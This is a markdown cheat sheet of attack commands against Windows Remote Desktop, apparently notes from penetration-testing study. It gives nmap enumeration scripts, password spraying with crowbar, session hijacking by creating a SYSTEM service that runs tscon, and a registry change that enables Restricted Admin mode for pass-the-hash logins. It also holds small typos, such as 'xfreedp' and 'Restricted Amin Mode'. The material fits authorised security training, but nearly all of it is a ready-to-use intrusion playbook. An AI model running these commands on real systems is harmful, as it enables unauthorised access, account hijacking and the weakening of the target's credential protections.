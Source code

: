  - Footprinting the Service
```bash
sudo nmap -sV -sC $IP -p3389 --script rdp*
```

- To track individual packages
```bash
sudo nmap -sV -sC $IP -p3390 --script rdp* --packet-trace --disable-arp-ping
```

### RDP Security Check
```bash
# Installation
sudo cpan
git clone https://github.com/CiscoCXSecurity/rdp-sec-check.git && cd rdp-sec-check
./rdp-sec-check.pl $IP

# Initiate an RDP Session
xfreedp /u:$user /p:$pass /b:$IP
```

### Password spraying using crowbar
```bash
crowbar -b rdp -s $IP -U users.txt -c 'password123'
```

### RDP Session Hijack
- Retrieve logged in users on the machine
```PowerShell
query user
```

- To successfully impersonate a user without password, we need SYSTEM privileges and use `tscon.exe`
```cmd
tscon $TARGET_SESSION /dest:$OUR_SESSION_NAME
```

- If we have local administrator privileges, we can obtain SYSTEM privilege by using `PsExec` or `Mimikatz`.
	1. Create a Windows service that will run as Local System and will execute binary with SYSTEM privileges.
	```cmd
			sc.exe create sessionhijack binpath= "cmd.exe /k tscon 1 /dest:$OUR_SESSION_NAME"
	```
	2. Start the service
	```cmd
	net start sessionhijack
	```

***NOTE:*** This no longer works on server 2019

### RDP Pass-the-Hash (PtH)
- We can use `xfreerdp` to access the target machine using obtain hashes.
- Prerequisites: The target must have `Restricted Amin Mode` enabled.
```cmd
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```